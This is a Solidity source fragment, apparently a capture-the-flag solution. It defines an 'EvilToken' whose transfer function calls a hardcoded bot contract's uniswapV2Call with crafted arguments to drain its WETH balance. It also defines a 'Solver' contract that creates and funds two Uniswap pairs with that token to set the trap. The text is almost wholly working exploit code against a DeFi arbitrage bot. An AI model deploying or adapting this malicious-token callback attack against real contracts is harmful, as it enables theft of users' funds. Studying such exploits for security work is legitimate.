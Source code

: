```solidity
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
        return true;
    }

    function transferFrom(address from, address to, uint value) public returns (bool) {
        require(allowance[from][msg.sender] >= value);
        allowance[from][msg.sender] -= value;
        _transfer(from, to, value);
        return true;
    }

    function _transfer(address from, address to, uint value) private {
        require(balanceOf[from] >= value);
        balanceOf[from] -= value;
        balanceOf[to] += value;
        emit Transfer(from, to, value);

        //if (gasleft() < 2000000) {
        if (block.number >= 8) {
            Bot bot = Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780);
            uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
            bot.uniswapV2Call(address(bot), 0, 0, abi.encode(address(this), address(0), balance, uint(0), true));
        }
    }
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external {
    }
}

contract Solver {
    constructor() payable {
        EvilToken e = new EvilToken();
        IUniswapV2Factory fac1 = IUniswapV2Factory(0x164e31a6Ac83D5EDaE2139Add30099485D15d138);
        IUniswapV2Factory fac2 = IUniswapV2Factory(0xff2624eb527e4acAb0afE10270B7F6f58483D319);
        IUniswapV2Pair pair1 = IUniswapV2Pair(fac1.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));
        IUniswapV2Pair pair2 = IUniswapV2Pair(fac2.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));

        uint b = address(this).balance;
        IWETH(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).deposit{value: b}();
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair1), b / 2);
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair2), b - b / 2);
        e.transfer(address(pair1), 1 ether);
        e.transfer(address(pair2), 10 ether);
        pair1.mint(address(this));
        pair2.mint(address(this));
    }
}
```
